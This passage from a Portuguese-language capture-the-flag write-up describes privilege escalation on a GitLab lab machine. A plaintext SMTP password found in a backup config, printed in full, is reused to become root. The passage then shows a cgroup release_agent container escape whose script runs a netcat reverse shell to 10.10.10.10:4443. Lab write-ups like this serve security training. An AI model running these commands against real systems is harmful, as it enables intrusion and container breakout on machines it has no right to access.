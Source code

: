 Uma vez que nao encontrei nenhum processo ou informação para o usuário dude e crackear a senha com base no hash identificado não era uma opção rápida, segui para a enumeração manual, onde acabei encontrando um diretório `/opt/backup`, que continha diversos arquivos.

Buscando neste diretório por palavras chaves como `passwd`, `password`, encontrei uma entrada que chamou atenção no arquivo `/opt/backup/gitlab.rb`, conforme podemos ver abaixo dentre as linhas comentadas e em branco, removidas utilizando o comando `grep` listado

```bash
git@gitlab:/opt/backup$ cat /opt/backup/gitlab.rb | grep -Ev '^#|^$'
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
git@gitlab:/opt/backup$
```

Com a senha encontrada, testado para o usuário `root`, o que confirmou a validade da credencial, porém no diretório raiz deste usuário **não existe um arquivo `root.txt`**, o que indica que precisaremos escapar do container e obter a flag a partir do host docker.

```bash
git@gitlab:/opt/backup$ su root
Password:
root@gitlab:/opt/backup# ls -la /root
total 28
drwx------ 1 root root 4096 Feb 27 13:24 .
drwxr-xr-x 1 root root 4096 Dec  1 12:41 ..
lrwxrwxrwx 1 root root    9 Dec  7 16:56 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 2 root root 4096 Feb 27 13:24 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwx------ 2 root root 4096 Dec  7 16:49 .ssh
-rw------- 1 root root 1565 Dec 13 15:06 .viminfo
root@gitlab:/opt/backup#
```

### Escapando do container

Uma vez que temos privilégios de root, se o container estiver rodando sob circunstâncias especificas, podemos escapar do mesmo para o host, conforme encontrei a partir de uma pesquisa e extremamente bem documentado no blog [Understanding Docker container escapes \| Trail of Bits Blog](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/).

Seguindo o passo-a-passo descrito neste blog, criado um listener na porta 4443 TCP na máquina atacante e realizados os seguintes procedimentos com o usuário `root` no container, obtendo assim um shell reverso.

```bash
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
